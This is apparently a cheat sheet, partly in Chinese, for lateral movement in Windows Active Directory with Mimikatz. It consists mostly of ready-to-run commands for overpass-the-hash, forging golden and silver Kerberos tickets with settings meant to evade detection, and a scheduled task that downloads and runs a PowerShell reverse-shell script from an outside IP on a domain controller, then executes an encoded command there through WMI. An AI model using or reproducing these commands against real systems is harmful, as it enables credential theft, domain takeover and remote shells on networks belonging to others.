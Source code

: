 # 使用 Mimikatz 进行横向运动

## Overpass-the-hash (more risky than Rubeus, writes to LSASS memory)
```
sekurlsa::pth /user:Administrator /domain:targetdomain.com /ntlm:[NTLMHASH] /run:powershell.exe
```

## Or, a more opsec-safe version that uses the AES256 key (similar to with Rubeus above) - works for multiple Mimikatz commands
```
sekurlsa::pth /user:Administrator /domain:targetdomain.com /aes256:[AES256KEY] /run:powershell.exe
```

## Golden ticket (domain admin, w/ some ticket properties to avoid detection)
```
kerberos::golden /user:Administrator /domain:targetdomain.com /sid:S-1-5-21-[DOMAINSID] /krbtgt:[KRBTGTHASH] /id:500 /groups:513,512,520,518,519 /startoffset:0 /endin:600 /renewmax:10080 /ptt
```


## Silver ticket for a specific SPN with a compromised service / machine account
```
kerberos::golden /user:Administrator /domain:targetdomain.com /sid:S-1-5-21-[DOMAINSID] /rc4:[MACHINEACCOUNTHASH] /target:dc.targetdomain.com /service:HOST /id:500 /groups:513,512,520,518,519 /startoffset:0 /endin:600 /renewmax:10080 /ptt
```

## 如果有HOST票据(Requires ‘Host’ SPN)

可以创建一个定时任务
```
schtasks /create /tn "shell" /ru "NT Authority\SYSTEM" /s dc.targetdomain.com /sc weekly /tr "Powershell.exe -c 'IEX (New-Object Net.WebClient).DownloadString(''http://172.16.100.55/Invoke-PowerShellTcpRun.ps1''')'"
```

触发
```
schtasks /RUN /TN "shell" /s dc.targetdomain.com
```

## 如果有HOST和RPCSS票据（Requires ‘Host’ and ‘RPCSS’ SPNs）

windows
```
Invoke-WmiMethod win32_process -ComputerName dc.targetdomain.com -name create -argumentlist "powershell.exe -e $encodedCommand"
```
